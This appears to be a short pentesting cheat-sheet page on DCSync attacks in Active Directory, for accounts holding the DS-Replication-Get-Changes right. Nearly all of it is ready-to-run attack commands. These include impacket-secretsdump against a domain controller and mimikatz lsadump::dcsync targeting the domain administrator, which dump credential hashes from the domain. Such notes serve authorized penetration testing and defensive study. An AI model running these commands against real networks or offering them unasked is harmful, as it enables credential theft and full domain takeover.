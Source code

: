 ```yaml
---
tags:
  - Authenticated
  - DS-Replication-Get-Changes
  - AD
---
```

## Identify
---
Do you control and object with the `DS-Replication-Get-Changes` ACL?
## Exploit
---
```Python
impacket-secretsdump 'domain.local'/'<user>':'<pass>'@'<DC0IP>'
```
**From windows**
```Bash
runas /netonly /user:DOMAIN\user powershell
```
```Bash
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:DOMAIN.LOCAL /user:DOMAIN\administrator
```